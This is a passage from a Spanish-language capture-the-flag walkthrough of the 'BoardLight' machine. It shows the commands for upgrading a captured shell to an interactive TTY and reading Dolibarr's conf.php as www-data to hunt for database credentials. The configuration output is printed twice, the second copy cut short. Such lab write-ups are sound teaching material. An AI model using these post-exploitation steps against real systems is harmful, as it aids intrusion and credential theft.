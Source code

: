 Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

Buscamos en google `Dolibarr conf file path`

![](/assets/img/BoardLight/image_6.png)

Nos dirigimos a esa `ruta` y obtenemos unas `credenciales`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ pwd
/var/www/html/crm.board.htb/htdocs/conf
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
```